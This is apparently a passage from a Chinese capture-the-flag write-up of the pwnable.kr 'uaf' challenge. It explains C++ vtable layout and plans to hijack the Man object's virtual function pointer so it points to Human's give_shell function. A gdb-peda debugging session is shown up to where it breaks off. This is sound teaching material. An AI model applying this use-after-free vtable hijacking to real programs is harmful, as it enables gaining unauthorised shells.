 ![img](https://upload-images.jianshu.io/upload_images/4238783-4981354c9e925f2b..jpg?imageMogr2/auto-orient/strip|imageView2/2/w/375/format/webp)

**单一继承，无虚函数重载**

![img](https://upload-images.jianshu.io/upload_images/4238783-e33fce320e9fd343..jpg?imageMogr2/auto-orient/strip|imageView2/2/w/322/format/webp)

**单一继承，重载了虚函数**

![img](https://upload-images.jianshu.io/upload_images/4238783-d88e550c9ca9c958..jpg?imageMogr2/auto-orient/strip|imageView2/2/w/339/format/webp)


所以在本题中，我们可以通过修改Man类重载的虚函数地址指向从Human拷贝过来的give_shell函数

```bash
gdb-peda$ file uaf
Reading symbols from uaf...(no debugging symbols found)...done.
gdb-peda$ b *0x0000000000400F13 #new man的函数地址 在ida 中可看到
Breakpoint 1 at 0x400f13 
gdb-peda$ r 
Starting program: /root/codes/pwnable.kr/uaf
[----------------------------------registers-----------------------------------]
RAX: 0x614ea0 --> 0x0
RBX: 0x614ea0 --> 0x0
RCX: 0x614eb0 --> 0x0
RDX: 0x19
RSI: 0x7ffffffee180
RDI: 0x614ea0 --> 0x0
RBP: 0x7ffffffee1d0
RSP: 0x7ffffffee170
RIP: 0x400f13 --> 0x5d89480000034ce8
R8 : 0x614ea0 --> 0x0
R9 : 0x7fffff78afc0 --> 0x602210 --> 0x7fffff6649e0 (<_ZN10__cxxabiv117__class_type_infoD2Ev>:            )R10: 0x20 (' ')
R11: 0x0
R12: 0x7ffffffee180
R13: 0x7ffffffee2b0
R14: 0x0
R15: 0x0
EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400f08 <main+68>:  mov    edx,0x19
   0x400f0d <main+73>:  mov    rsi,r12
   0x400f10 <main+76>:  mov    rdi,rbx
=> 0x400f13 <main+79>:  call   0x401264 <_ZN3ManC2ESsi>
   0x400f18 <main+84>:  mov    QWORD PTR [rbp-0x38],rbx
   0x400f1c <main+88>:  lea    rax,[rbp-0x50]
   0x400f20 <main+92>:  mov    rdi,rax
   0x400f23 <main+95>:  call   0x400d00 <_ZNSsD1Ev@plt>
Guessed arguments:
arg[0]: 0x614ea0 --> 0x0
arg[1]: 0x7ffffffee180
arg[2]: 0x19
[------------------------------------stack-------------------------------------]
Invalid $SP address: 0x7ffffffee170
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000000000400f13 in main ()
gdb-peda$ ni #执行一行源程序代码（汇编级别），此行代码中的函数调用也一并执行。
[----------------------------------registers-----------------------------------]
RAX: 0x614ea0 --> 0x401570 --> 0x40117a (<_ZN5Human10give_shellEv>:     push   rbp)
RBX: 0x614ea0 --> 0x401570 --> 0x40117a (<_ZN5Human10give_shellEv>:     push   rbp)
RCX: 0x614eb0 --> 0x614e88 --> 0x6b63614a ('Jack')
RDX: 0x19
RSI: 0x7ffffffee180
```